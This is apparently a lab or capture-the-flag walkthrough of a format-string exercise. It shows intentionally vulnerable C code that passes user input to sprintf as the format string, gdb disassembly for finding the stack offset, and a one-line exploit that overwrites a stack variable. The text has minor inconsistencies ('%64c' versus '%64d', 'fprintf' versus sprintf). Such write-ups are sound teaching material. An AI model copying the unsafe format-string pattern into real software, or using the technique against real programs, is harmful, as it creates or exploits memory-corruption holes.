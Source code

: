 # Format Zero

> This level introduces format strings, and how attacker supplied format strings can modify the execution flow of programs.&#x20;
>
>
>
> **Hints**
>
> * This level should be done in less than 10 bytes of input.
> * “Exploiting format string vulnerabilities”

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

* The program expects one user supplied argument as shown by `vuln(argv[1]);`.
* The code then uses `sprintf` which is where the vulnerability lies.

```
## Bugs

Because **sprintf**() and **vsprintf**() assume an arbitrarily long string, callers must be careful not to overflow the actual space; this is often impossible to assure. Note that the length of the strings produced is locale-dependent and difficult to predict. Use **snprintf**() and **vsnprintf**() instead (or **[asprintf](https://linux.die.net/man/3/asprintf)**(3) and **[vasprintf](https://linux.die.net/man/3/vasprintf)**(3)).

Linux libc4.[45] does not have a **snprintf**(), but provides a libbsd that contains an **snprintf**() equivalent to **sprintf**(), that is, one that ignores the _size_ argument. Thus, the use of **snprintf**() with early libc4 leads to serious security problems.

Code such as **printf(**_foo_**);** often indicates a bug, since _foo_ may contain a % character. If _foo_ comes from untrusted user input, it may contain **%n**, causing the **printf**() call to write to memory and creating a security hole.
```

* Before we exploit the program, we need to know how the stack is laid out.
* Let's disassemble the `vuln` function.

```
(gdb) disass vuln
Dump of assembler code for function vuln:
0x080483f4 <vuln+0>:    push   ebp
0x080483f5 <vuln+1>:    mov    ebp,esp
0x080483f7 <vuln+3>:    sub    esp,0x68
0x080483fa <vuln+6>:    mov    DWORD PTR [ebp-0xc],0x0
0x08048401 <vuln+13>:   mov    eax,DWORD PTR [ebp+0x8]
0x08048404 <vuln+16>:   mov    DWORD PTR [esp+0x4],eax
0x08048408 <vuln+20>:   lea    eax,[ebp-0x4c]
0x0804840b <vuln+23>:   mov    DWORD PTR [esp],eax
0x0804840e <vuln+26>:   call   0x8048300 <sprintf@plt>
0x08048413 <vuln+31>:   mov    eax,DWORD PTR [ebp-0xc]
0x08048416 <vuln+34>:   cmp    eax,0xdeadbeef
0x0804841b <vuln+39>:   jne    0x8048429 <vuln+53>
0x0804841d <vuln+41>:   mov    DWORD PTR [esp],0x8048510
0x08048424 <vuln+48>:   call   0x8048330 <puts@plt>
0x08048429 <vuln+53>:   leave
0x0804842a <vuln+54>:   ret
```

* We can see that the line at `vuln+26` makes the call to `sprintf`.

```
--snip--;
0x08048408 <vuln+20>:   lea    eax,[ebp-0x4c]
0x0804840b <vuln+23>:   mov    DWORD PTR [esp],eax
0x0804840e <vuln+26>:   call   0x8048300 <sprintf@plt>
--snip--;
```

* The first argument is the address `ebp-0x4c` and it is loaded into `eax`.
* If we look at the man page of `sprintf` we can see that the first argument is a pointer to the buffer.

```c
int sprintf(char *restrict s, const char *restrict format, ...);
```

* Looking back at the disassembled code of `vuln` at `vuln+34` a comparison is being made.

```
--snip--;
0x08048413 <vuln+31>:   mov    eax,DWORD PTR [ebp-0xc]
0x08048416 <vuln+34>:   cmp    eax,0xdeadbeef
--snip--;
```

* This is checking if the `target` variable is set to `0xdeadbeef`. The value being compared is being moved from `ebp-0xc`.
* So we know the location of the `buffer` as well as the `target` variable. Let's find the distance between them.

```
(gdb) p/d 0x4c - 0xc
$1 = 64
```

* So the distance is 64 bytes but we have been instructed to use less than 10 bytes. Which means a classic buffer overflow will not work.
* This is where the [format string attack](https://owasp.org/www-community/attacks/Format\_string\_attack) comes in.
* Instead of submitting 64 bytes of padding we can submit the format string `%64c` which translates to 64 characters.
* When `fprintf` is executed, it takes the bytes after the format string and overwrites the `target` variable.

### Exploit

```
$ ./format0 $(python -c 'print "%64d\xef\xbe\xad\xde"')
you have hit the target correctly :)
```

* Note that you can use other format specifiers mentioned [here](https://owasp.org/www-community/attacks/Format\_string\_attack).
